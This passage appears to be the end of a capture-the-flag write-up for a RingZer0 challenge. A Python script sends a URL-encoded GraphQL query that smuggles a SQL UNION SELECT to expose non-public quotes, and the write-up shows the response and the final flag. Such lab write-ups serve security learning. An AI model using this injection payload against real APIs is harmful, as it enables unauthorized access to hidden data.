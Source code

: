 ```python
import requests
from urllib.parse import quote

base_url = "http://challenges.ringzer0ctf.com:10303/api/quotes/"

headers = {
    'Content-Type': 'application/json'
}

string = """2) { id } search (query: "a') union SELECT id,author_id,value,1,5,6 from Quotes --") { id, value, public, author { id, name} } test : quote(id:1"""
encoded_string = quote(string)  # URL encode the character
url = f"{base_url}{encoded_string}"
response = requests.get(url, headers=headers)
print(f"Response: {response.text}")
```

Result:

```
...{"id":10,"value":"FLAG-9157d555e5fc12c866775e4093a639c3","public":1,"author":{"id":3,"name":"Richard G. Cabrera"}}...
```

So we were right, that the `10th` quote wasn't visible, because it's `public` field was set to `0`.

## Final Flag

`FLAG-9157d555e5fc12c866775e4093a639c3`

*Created by [bu19akov](https://github.com/bu19akov)*